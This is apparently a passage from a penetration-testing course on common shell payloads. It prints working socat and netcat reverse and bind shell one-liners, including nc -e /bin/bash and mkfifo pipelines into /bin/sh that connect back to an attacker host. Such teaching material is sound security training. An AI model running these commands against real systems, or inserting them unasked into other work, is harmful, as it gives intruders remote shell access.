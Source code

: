 ```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

# Common Shell Payloads                            

We'll soon be looking at generating payloads with msfvenom, but  before we do that, let's take a look at some common payloads using the  tools we've already covered.

------

A previous task mentioned  that we'd be looking at some ways to use netcat as a listener for a  bindshell, so we'll start with that. In some versions of netcat  (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. For example, as a listener:

```
nc -lvnp <PORT> -e /bin/bash
```

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary  is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't  make much sense for now -- the command itself is what matters. 

> *The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the  listener to the output of the named pipe. The output of the netcat  listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.*

![img](assets/se5Fyn3.png)

A very similar command can be used to send a netcat reverse shell:

```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
